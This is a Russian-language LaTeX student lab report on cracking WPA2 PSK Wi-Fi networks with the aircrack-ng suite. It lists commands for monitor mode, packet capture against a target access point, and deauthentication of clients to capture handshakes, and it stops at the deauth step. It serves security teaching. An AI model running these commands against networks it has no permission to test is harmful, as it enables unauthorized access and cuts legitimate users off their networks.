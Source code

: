 \documentclass[10pt,a4paper]{article}
\author{Рикардо санчес}
\date{}
\title{Отчет по лабораторной работе №3. Aircrack}
\begin{document}
\maketitle
\section{Цель работы}
Изучить возможности инструмента AirCrack и основы взлома WPA/WPA2, PSK и WEP.
\section{Ход работы}
\subsection{Взлом WPA2 PSK сети}
\subsubsection{Установка беспроводной сетевой карты в режим мониторинга}
Набираем под рутом\\
\verb+iwconfig+ - смотрим все беспроводные интерфейсы\\
\verb+airmon-ng start wlan0+ - ставим интерфейс в режим мониторинга.
\subsubsection{Поиск доступных беспроводных сетей}
\verb+airodump-ng mon0+ - просмотр всех каналов перечисляя точки доступа, находим доступные беспроводные сети.\\
Далее выбираем цель - точку с сильным сигналом и большим количеством трафика. Запишем ее канал и mac адрес.
\subsubsection{Сбор данных}
Пусть адаптер называется mon0 и, например, нужно захватить пакеты с 6 канала в файл под названием data. Для этого нужен airodump-ng.\\
\verb+airodump-ng -c 6 bssid 00:0F:CC:7D:5A:74 -w data mon0+\\
-c 6  - ловим пакеты с 6 канала\\
bssid 00:0F:CC:7D:5A:74 - mac адрес взламываемой точки доступа.\\
Выходным файлом должен быть cap-файл. А на вопрос "Only write WEP
IVs (y/n)" следует ответить нет.\\
Далее необходимо произвести захват входа клиента в сеть. Это необходимо для того, чтобы взломать WPA ключ.\\
\verb+aireplay-ng –deauth 3 -a MAC_IP -c MAC_Client mon0+ - генерирует дополнительный трафик к беспроводной сети, чтобы произвести атаку, для процедура переинициализации клиентов сети.\\
\end{document}
